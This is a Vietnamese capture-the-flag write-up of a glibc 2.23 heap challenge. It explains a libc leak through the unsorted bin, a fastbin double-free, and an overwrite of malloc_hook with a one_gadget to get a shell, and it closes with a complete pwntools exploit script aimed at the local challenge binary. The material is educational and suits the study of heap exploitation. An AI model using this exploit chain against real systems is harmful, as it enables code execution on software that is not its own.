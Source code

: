 # Heap_Exploit - Heap2

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn2_df_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 3.2.0, BuildID[sha1]=448d3beedfd5ae424f8d857ba8b2e06eb7e09591, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Full bảo vệ được bật. Kế đến sử dụng Ida Pro 64 bits

Sửa lại file IDA ta có hàm main():

![main.png](images/main.png)

Ở đây ta có 4 options dùng để khai thác bao gồm: 'createHeap', 'showHeap', 'editHeap', 'exit'

# 2. Phân tích yêu cầu

ở bài này không có hàm get_shell hay get_flag vì vậy chúng ta phải tự tạo shell, kiếm thử one_gadget:

![one_gadget.png](images/one_gadget.png)

Do one_gadget ở bài này yêu cầu ít -> one_gadget

# 3. Khai thác

Đầu tiên chúng ta sẽ tạo một vài chunks rồi free nó:

```
create(0, 0x80, b"1"*0x80) # tạo khối bộ nhớ có kích thước 0x80 bytes
create(1, 0x80, b"2"*0x80) # tạo khối bộ nhớ có kích thước 0x80 bytes
free(0) # giải phóng khối bộ nhớ vừa tạo
```

Khi đó heap của chúng ta sẽ như sau:

![chunk1.png](images/chunk1.png)

Vì sao khi free thì địa chỉ chunk đó không lưu trên '
fastbins'?

Vì khi một khối nhớ được giải phóng, chương trình sẽ thêm khối đó vào danh sách các khối nhớ trống để sử dụng cho các yêu cầu cấp phát khác. 

Fastbin là một trong những danh sách này, nó được dùng để quản lý các khối nhớ nhỏ và có kích thước cố định. Chương trình này sử dụng 'libc.2.23' nên có chunk max là 0x80 bytes

Nếu chunk heap cấp phát cao hơn max kích thước mà fastbin có 

->rồi sau đó nó được giải phóng, thông tin về chunk heap đó sẽ được ghi vào metadata của chunk heap, và sau đó được lưu trữ trong biến global 'main_arena'.

Từ địa chỉ 'main_area' trên chunk heap, ta leak được địa chỉ libc_base và từ đó tính được 'malloc_hook' cũng như 'one_gadget':

```
show(0)
p.recvuntil(b"Data = ")
libc = int.from_bytes(p.recv(6),"little") -3783544
print("Leak: ", hex(libc))
malloc_hook = libc + 3783440
print("Malloc: ",hex(malloc_hook))
og = libc + 0x3f3d6
og2 = libc + 0x3f42a
og3 = libc + 0xd5bf7
```

Tiếp theo chúng ta tạo 2 chunk rác rồi lợi dụng lỗi 'double-free':

```
create(2, 0x68, b"a"*8)
create(3, 0x68, b"b"*8)
free(2)
free(3)
free(2)
```
Tại sao phải free(3) rồi mới lại free(2) lần nữa?

Vì khi ta free() 2 lần chunk cuối thì chương trình sẽ bị lỗi in ra màn hình : 

![console.png](images/console.png)

Sau khi free() 3 lần chúng ta nhận được giá trị của fastbin 0x70: 

![fast_bin.png](images/fast_bin.png)

Vì khi free() 1 chunk có size nằm trong khoảng 0x70 thì sẽ được lưu địa chỉ trong fastbin 0x70 nhưng do ta free(2) 2 lần khiến địa chỉ này xuất hiện 2 lần trong fastbin 0x70.

Tiếp sau đó, ta tạo 1 chunk để xuất hiện 'malloc_hook' trong fastbin để sau này chúng ta ghi đè:

```
create(4,0x68,p64(malloc_hook-35))
```

Ở đây là 'malloc_hook'-35. Hãy nhìn vào fake_chunk định tạo:

![fake.png](images/fake.png)

Ở vị trí này chúng ta có thể tạo 1 fake chunk với size '0x7f' vì nó thuộc đoạn fastbin 0x70 để sau này ta có thể ghi vào.

Nhìn vào fastbin khi đó: 

![bins.png](images/bins.png)

Nơi ta cần ghi đè đó là 'malloc_hook'-35 ở vị trí thứ 3

-> tạo thêm 2 fake chunk với size 0x68 bytes.

```
create(5,0x68,b"C"*0x8)
create(6,0x68,b"D"*8)
```

Ok! Giờ việc còn lại của ta là tạo 1 chunk mới vào địa chỉ thứ 3 của fastbin 0x70.

```
payload = b"a"*19 + p64(og3)
create(7,0x68,payload)
```

Tạo sao lại là 19 bytes rác trước khi ghi 'one_gadget' vào?

![hook.png](images/hook.png)

Do nơi ta ghi vào cách giá trị của 'malloc_hook' là 0x19 .

Nhìn vào điều kiện 'one_gadget'

![og.png](images/og.png)

Và check stack sau đó: 

![og1.png](images/og1.png)

Do ở đây vẫn còn vòng lặp loop

-> Lợi dụng chương trình bị lỗi "double free or corruption (fasttop)" khiến nó dừng lại để chạy shell:

```
free(5)
free(5)
```

Vậy là lấy được shell.

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn2_df_patched', checksec=False)

p = process("./pwn2_df_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(index,size,data):
	p.sendlineafter(b">", b"1")
	p.sendlineafter(b"Index:", str(index))
	p.sendlineafter(b"Input size:", str(size))
	p.sendafter(b"Input data:", data)

def free(index):
	p.sendlineafter(b">", b"4")
	p.sendafter(b"Input index:", str(index)) 

def show(index):
	p.sendlineafter(b">", b"2")
	p.sendlineafter(b"Index:", str(index))


def edit(index,data):
	p.sendlineafter(b">", b"3")
	p.sendlineafter(b"Input index:", str(index))
	p.sendline(data)


create(0, 0x80, b"1"*0x80) # tạo khối bộ nhớ có kích thước 0x80			do fastbin max = 0x80 bytes => free -> unsortedbin
create(1, 0x80, b"2"*0x80) # tạo khối bộ nhớ có kích thước 0x80
free(0) # giải phóng khối bộ nhớ vừa tạo

show(0)
p.recvuntil(b"Data = ")
libc = int.from_bytes(p.recv(6),"little") -3783544
print("Leak: ", hex(libc))
malloc_hook = libc + 3783440
print("Malloc: ",hex(malloc_hook))
og = libc + 0x3f3d6
og2 = libc + 0x3f42a
og3 = libc + 0xd5bf7

create(2, 0x68, b"a"*8)
create(3, 0x68, b"b"*8)
free(2)
free(3)
free(2)

create(4,0x68,p64(malloc_hook-35))
create(5,0x68,b"C"*0x8)
create(6,0x68,b"D"*8)

payload = b"a"*19 + p64(og3)
create(7,0x68,payload)

free(5)
free(5)


#p.sendlineafter(b">",payload)
p.interactive()
```


